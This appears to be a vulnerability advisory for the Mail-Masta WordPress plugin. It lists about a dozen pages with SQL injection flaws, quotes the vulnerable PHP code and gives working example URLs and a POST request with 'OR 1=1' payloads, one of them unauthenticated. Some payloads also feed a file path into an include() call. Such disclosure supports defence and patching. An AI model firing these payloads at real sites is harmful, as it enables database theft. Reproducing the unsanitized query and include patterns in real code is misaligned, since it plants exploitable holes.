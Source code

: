 Mail-Masta SQL Injection
=========================================
Page: ./wp-content/plugins/mail-masta/inc/lists/csvexport.php (Unauthenticated)

GET Parameter: list_id

    http://my_wp_app/wp-content/plugins/mail-masta/inc/lists/csvexport.php?list_id=0+OR+1%3D1&pl=/var/www/html/wordpress/wp-load.php


csvexport.php:

    $list_id=$_GET['list_id'];
    global $wpdb;
    $mail_subscribers = $wpdb->prefix . "masta_subscribers";
    $masta_list = $wpdb->prefix . "masta_list";
    $check_sql = "SELECT * FROM $mail_subscribers WHERE list_id = $list_id";
    $check_list="SELECT * FROM $masta_list WHERE list_id= $list_id";
    $wp_list=$wpdb->get_results($check_sql);
    $wp_list_s=$wpdb->get_results($check_list);



=========================================

Page: ./wp-content/plugins/mail-masta/inc/lists/view-list.php (Requires Wordpress admin)

GET Parameter: filter_list

    http://my_wp_app/wp-admin/admin.php?page=masta-lists&action=view_list&filter_list=0+OR+1%3D1


view-list.php:

    global $wpdb;
    $list_id = $_GET['filter_list'];
    $masta_list = $wpdb->prefix . "masta_list";
    $masta_subscribers = $wpdb->prefix . "masta_subscribers";
    $listdata = $wpdb->get_results( $wpdb->prepare("SELECT * FROM $masta_list WHERE list_id= $list_id",$query));
    $list_subscribers = $wpdb->get_var( $wpdb->prepare("SELECT COUNT( `list_id` ) FROM $masta_subscribers WHERE list_id= $list_id AND status=1",$query));

=========================================

Page: ./wp-content/plugins/mail-masta/inc/campaign/count_of_send.php (Requires Wordpress admin)

POST Parameter: camp_id

    http://my_wp_app/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php/?pl=/var/www/html/wordpress/wp-load.php


count_of_send.php:

    include($_GET['pl']);
    global $wpdb;
    $camp_id=$_POST['camp_id'];
    $masta_reports = $wpdb->prefix . "masta_reports";
    $count=$wpdb->get_results("SELECT count(*) co from  $masta_reports where camp_id=$camp_id and status=1");


=========================================


Page: ./wp-content/plugins/mail-masta/inc/campaign_save.php (Requires Wordpress admin)

POST Parameter: list_id

campaign_save.php:

    $list_id=$_POST['list_id'];
    $check_list = $wpdb->get_var("SELECT count(id) FROM wp_masta_subscribers where list_id=$list_id");


POST /wp-admin/admin-ajax.php?id= HTTP/1.1

...snip...

action=my_action&url=%2Fvar%2Fwww%2Fhtml%2Fwp-content%2Fplugins%2Fmail-masta%2Finc%2Fcampaign_save.php&sender_selected_list_check=check&list_id=1+OR+1%3D1

=========================================
Page: ./wp-content/plugins/mail-masta/inc/campaign/view-campaign-list.php (Requires Wordpress admin)

GET Parameter: id

	Line 109: 	$campaigndata = $wpdb->get_results( "SELECT * FROM $masta_campaign WHERE camp_id = $camp_id");
	Line 111: 	$totals = $wpdb->get_results( "SELECT count(*) ts FROM $masta_report WHERE camp_id = $camp_id and status=1");
	Line 113: 	$totalm = $wpdb->get_results( "SELECT count(*) tm FROM $masta_report WHERE camp_id = $camp_id");

=========================================

Page: ./wp-content/plugins/mail-masta/inc/campaign/view-campaign.php (Requires Wordpress admin)

GET Parameter: id

	Line 39: 	$campaigndata = $wpdb->get_results( "SELECT * FROM $masta_campaign WHERE camp_id = $camp_id");

=========================================

Page: ./wp-content/plugins/mail-masta/inc/lists/add_member.php (Requires Wordpress admin)

GET Parameter: filter_list	

	Line 16: 	$list_form_data = $wpdb->get_results( "SELECT * FROM $masta_list WHERE list_id = $list_id ");

=========================================

Page: ./wp-content/plugins/mail-masta/inc/lists/edit-list.php (Requires Wordpress admin)

	GET Parameter: id	

	====  Vulnerable Code  ====
	Line 21: 	$list_ans= $wpdb->get_results("select * from $mail_list where list_id=$list_id");

=========================================

Page: ./wp-content/plugins/mail-masta/inc/lists/edit_member.php (Requires Wordpress admin)

GET Parameters: filter_list, member_id

	Line 81: 	$list_form_data = $wpdb->get_results( "SELECT * FROM $masta_list WHERE list_id = $list_id ");
	Line 89: 	$list_subs = $wpdb->get_results( "SELECT * FROM $masta_subs WHERE list_id = $list_id and id = $member_id");

=========================================

Page: ./wp-content/plugins/mail-masta/inc/campaign/campaign-delete.php 

GET Parameter: id

	(./wp-content/plugins/mail-masta/inc/mail-campaign-data.php)
	Line 1303: 	$camp_id = $_GET["id"];
	Line 4: 	$result = $wpdb->query($wpdb->prepare("DELETE FROM $masta_campaign WHERE camp_id = $camp_id limit 1"));

=========================================

Page: ./wp-content/plugins/mail-masta/inc/subscriber_list.php 

POST Parameter: list_id, subscriber_email

	Line 25: 	$check_sql = "SELECT * FROM $mail_subscribers WHERE list_id = $list_id and email = '$email'";
	Line 27: 	$check_available = $wpdb->get_results($check_sql);
	Line 57: 	$list_form_data = $wpdb->get_results("SELECT * FROM $masta_list WHERE list_id = $list_id ");

=========================================


